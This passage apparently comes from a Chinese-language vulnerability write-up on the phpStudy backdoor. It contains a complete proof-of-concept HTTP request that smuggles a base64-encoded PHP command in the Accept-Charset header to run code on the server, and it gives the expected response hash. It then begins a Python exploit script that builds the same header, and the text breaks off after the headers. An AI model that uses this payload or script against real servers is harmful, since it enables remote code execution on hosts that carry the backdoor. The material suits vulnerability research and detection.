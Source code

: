     ?>

### POC

熟悉原理后可根据执行流程构造执行任意代码的Payload：

    GET /index.php HTTP/1.1
    Host: www.0-sec.org
    Cache-Control: max-age=0
    Upgrade-Insecure-Requests: 1
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/76.0.3809.132 Safari/537.36
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
    Accept-Encoding:gzip,deflate
    Accept-Charset:cHJpbnRmKG1kNSgzMzMpKTs=
    Content-Length: 0
    Accept-Language: zh-CN,zh;q=0.9
    Connection: close

Payload：`printf(md5(333));`

回显特征：`310dcbbf4cce62f762a2aaa148d556bd`

![7.jpg](resource/Phpstudy后门(非官方后门！！！)/media/rId37.jpg)

图5：Payload回显验证

### exp

    #!/usr/bin/env python3
    #-*- encoding:utf-8 -*-
    # 卿 博客:https://www.cnblogs.com/-qing-/

    import base64
    import requests
    import threading
    import queue


    print("======Phpstudy Backdoor Exploit============\n")
    print("===========By  Qing=================\n")
    print("=====Blog：https://www.cnblogs.com/-qing-/==\n")
    payload = "echo \"qing\";"
    payload = base64.b64encode(payload.encode('utf-8'))
    payload = str(payload, 'utf-8')
    headers = {
        'Upgrade-Insecure-Requests': '1',
        'User-Agent': 'Mozilla/5.0 (Windows NT 6.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/75.0.3770.100 Safari/537.36',
        'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3',
        'Accept-Language': 'zh-CN,zh;q=0.9',
        'accept-charset': payload,
        'Accept-Encoding': 'gzip,deflate',
        'Connection': 'close',
    }
